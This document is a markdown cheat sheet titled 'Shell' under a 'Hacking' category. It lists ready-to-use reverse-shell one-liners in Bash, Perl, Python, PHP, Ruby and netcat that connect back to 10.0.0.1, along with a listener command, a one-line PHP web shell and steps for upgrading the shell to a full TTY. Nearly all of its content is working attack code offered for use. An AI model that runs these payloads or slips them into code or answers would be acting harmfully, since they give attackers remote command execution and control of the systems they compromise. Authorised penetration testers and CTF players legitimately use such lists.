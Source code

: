 ```yaml
---
title: Shell
category: Hacking
layout: main/sheet
updated: 2020-02-06
---
```


## Shell

### Create a TCP Server

```bash
nc -lnvp 9000
```

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### PERL

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
<?php echo system($_REQUEST['cmd']); ?>
```

### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
```


### Beautiful Shell

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

```bash
CTRL+Z
stty raw -echo
fg
```

